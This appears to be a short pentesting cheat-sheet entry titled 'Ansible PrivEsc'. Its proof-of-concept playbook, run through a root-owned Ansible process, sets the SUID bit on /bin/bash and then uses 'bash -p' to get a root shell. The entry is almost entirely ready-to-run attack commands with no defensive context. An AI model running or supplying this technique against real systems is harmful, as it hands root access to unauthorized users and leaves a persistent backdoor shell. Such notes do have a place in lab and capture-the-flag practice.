 # Ansible PrivEsc
>If an ansible file is loaded by a root process : **Privilege Escalation**

## PoC
```bash
# Create a .yml file just like the other one
nano evil.yml
# Content :
- hosts: localhost
  tasks:
    - name: RShell
      command: chmod u+s /bin/bash
      become: true

# save
ls -lah /bin/bash
ansible-playbook evil.yml
bash -p
# root
```

